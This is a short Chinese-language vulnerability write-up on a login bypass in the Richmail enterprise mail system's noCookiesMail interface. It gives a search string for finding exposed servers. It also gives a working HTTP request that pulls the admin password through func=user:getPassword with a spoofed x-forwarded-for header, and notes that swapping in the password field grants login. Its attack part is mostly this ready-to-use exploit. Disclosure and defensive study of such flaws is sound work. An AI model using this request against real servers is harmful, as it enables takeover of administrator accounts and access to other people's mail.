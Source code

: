 # 

# Richmail 企业邮箱 noCookiesMail 登陆绕过漏洞

## 漏洞描述

Richmail 企业邮箱 noCookiesMail 接口存在登陆绕过漏洞，攻击者通过漏洞可以获取管理员账号密码登录后台

## 漏洞影响

Richmail 企业邮箱

## 网络测绘

```
"Richmail 企业邮箱"
```

## 漏洞复现

登陆页面

![image-20231115104548787](images/image-20231115104548787.png)

poc

```
GET /RmWeb/noCookiesMail?func=user:getPassword&userMailName=admin HTTP/1.1 
Host:
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
x-forwarded-for: 127.0.0.1
```

![image-20231115104603790](images/image-20231115104603790.png)

替换请求中的password字段即可登陆。
